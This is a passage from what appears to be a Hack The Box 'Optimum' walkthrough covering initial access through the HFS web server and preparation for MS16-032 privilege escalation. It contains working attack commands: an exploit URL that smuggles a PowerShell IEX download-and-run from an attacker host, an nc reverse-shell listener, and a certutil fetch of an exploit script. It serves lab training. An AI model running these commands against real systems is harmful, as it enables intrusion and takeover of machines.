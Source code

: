 It appears to be vulnerable to MS16-032, MS16-135.

I also tried to run `winPEAS`, but it was not working.
I checked the current running process, and it seemed that it was running on 32bit.
This might have happened because the HFS is running on 32bit.

```powershell
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

To solve this, I reopened a reverse shell with specified 64bit powershell path.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 "C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/rshell.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|C%3A%5CWindows%5Csysnative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.3%3A8000/rshell.ps1%27%29.}
```

Then it opened a powershell with 64bit process.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49220
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>[Environment]::Is64BitProcess
True
```

### MS16-032

MS16-032 vulnerability triggers privilege escalation when `seclogon` is exploited.
To be specific, when `CreateProcessWithLogonW` function setup security context when it's creating new process. If its token handler is not handled properly, it can be abused.

I found the [reference](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms16-032.md) to exploit and spawn a reverse shell using MS16-032 vulnerability.

First, let's upload `Invoke-MS16032.ps1` and import it.

```powershell
PS C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f http://10.10.14.3:8888/Invoke-MS16032.ps1
****  Online  ****
  0000  ...
  35dd
CertUtil: -URLCache command completed successfully.

PS C:\Users\kostas\Desktop> . .\Invoke-MS16032.ps1
```
